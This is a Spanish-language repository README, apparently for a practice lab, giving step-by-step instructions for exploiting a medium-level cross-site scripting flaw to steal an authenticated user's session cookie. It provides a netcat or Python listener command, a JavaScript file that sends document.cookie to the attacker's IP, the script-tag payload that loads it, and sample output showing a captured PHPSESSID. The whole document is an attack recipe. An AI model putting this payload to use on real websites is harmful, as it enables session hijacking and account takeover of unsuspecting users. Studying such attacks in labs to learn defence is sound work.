

# Explotación XSS Nivel Medio para Robo de Cookies

Este repositorio describe paso a paso cómo explotar una vulnerabilidad Cross-Site Scripting (XSS) de nivel medio para robar la cookie de un usuario autenticado.

## Descripción General

El objetivo es inyectar código JavaScript malicioso en un parámetro vulnerable de una página web. Este script se ejecutará en el navegador de la víctima y enviará su cookie de sesión a un servidor web controlado por el atacante.

## Pasos de la Explotación

1.  **Configurar el servidor web temporal:**
    ```bash
    nc -lvp 9999
    ```
    o

    ```bash
    python3 -m http.server 9999
    ```

    Este comando inicia un servidor web simple con `netcat` o `python` que escucha en el puerto 9999.

2.  **Crear el script malicioso (`a.js`):**
    Crea un archivo llamado `a.js` con el siguiente contenido, reemplazando `[tu_Kali_IP]` con la dirección IP de tu máquina atacante:
    ```javascript
    fetch('http://[tu_Kali_IP]:9999/?cookie=' + document.cookie);
    ```
    Este script utiliza `fetch` para enviar la cookie del usuario a tu servidor.

3.  **Poner el servidor web a la escucha:**
    Asegúrate de que la terminal donde ejecutaste el comando `netcat` esté activa y esperando conexiones.

4.  **Acceder a la página vulnerable con el payload:**
    En el campo vulnerable de la página web, introduce el siguiente payload, reemplazando `[tu_Kali_IP]` con tu dirección IP:
    ```html
    <SCRIPT src="http://[tu_Kali_IP]:9999/a.js"></SCRIPT>
    ```
    Envía el formulario.

5.  **Verificar la recepción de la cookie:**
    En la terminal de `netcat`, deberías ver una petición GET que incluye la cookie de la víctima en la URL, similar a:
    ```
    GET /?cookie=PHPSESSID=alguna_cadena_aleatoria; security=medium HTTP/1.1
    Host: [tu_Kali_IP]:9999
    User-Agent: ...
    Connection: close
    ```
    Esto puede cambiar dependiendo de si estamos escuchando con python.
    El valor después de `cookie=` es la cookie robada.


